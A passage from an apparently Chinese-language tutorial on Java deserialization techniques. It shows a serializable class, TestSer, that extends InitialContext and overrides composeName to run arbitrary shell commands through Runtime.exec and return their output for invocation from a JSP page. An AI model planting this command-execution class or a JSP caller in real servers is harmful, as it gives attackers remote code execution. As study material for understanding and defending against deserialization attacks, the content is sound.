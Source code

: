 **3.查看`ver.jsp`执行结果**

可以看到通过反序列化的类`TestRunTime`调用

![image-20191209154331182](../../images/image-20191209154331182.png)

### 使用系统类继承调用

由于很多原因，我们没办法再一个系统中定义一个我们自己的类，在这种情况下可以使用JVM中的类来继承

用于执行反序列化后的类，同样需要重写父类某一方法，并进行调用

```java
// TestSer.java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.io.IOException;
import java.io.InputStream;
import java.io.Serializable;

public class TestSer extends InitialContext implements Serializable {

   TestSer() throws NamingException {
      super(true);
   }

   @Override
   public String composeName(String str, String code) {
      StringBuilder stringBuffer = new StringBuilder();

      try {
         Process     process     = Runtime.getRuntime().exec(str);
         InputStream inputStream = process.getInputStream();
         int         chr         = 0;

         while ((chr = inputStream.read()) != -1) {
            stringBuffer.append((char) chr);
         }
      } catch (IOException ignored) {
      }

      return stringBuffer.toString();
   }

   // ......其他条件代码
}
```

调用执行的jsp代码
